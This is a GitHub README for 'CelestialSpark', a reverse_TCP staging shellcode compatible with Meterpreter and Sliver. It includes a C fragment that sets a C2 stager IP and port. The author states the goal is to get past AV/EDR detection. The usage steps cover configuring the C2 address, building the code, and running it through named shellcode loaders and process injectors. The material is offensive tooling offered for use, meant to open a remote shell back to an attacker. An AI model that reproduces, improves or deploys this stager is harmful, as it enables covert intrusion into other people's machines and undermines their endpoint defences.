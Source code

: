 # CelestialSpark

A modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust

```c
#include <Common.h>
#include <Constexpr.h>
#pragma comment(lib, "ws2_32.lib")

LPWSTR* arglist;
// Define IP Adress of your C2 Stager (!)
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your TCP Stager
#define PORT 443
...
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
- https://github.com/SherifEldeeb/TinyMet
- https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in Main.C
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in Main.c
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader written by [Cracked5pider](https://github.com/Cracked5pider)

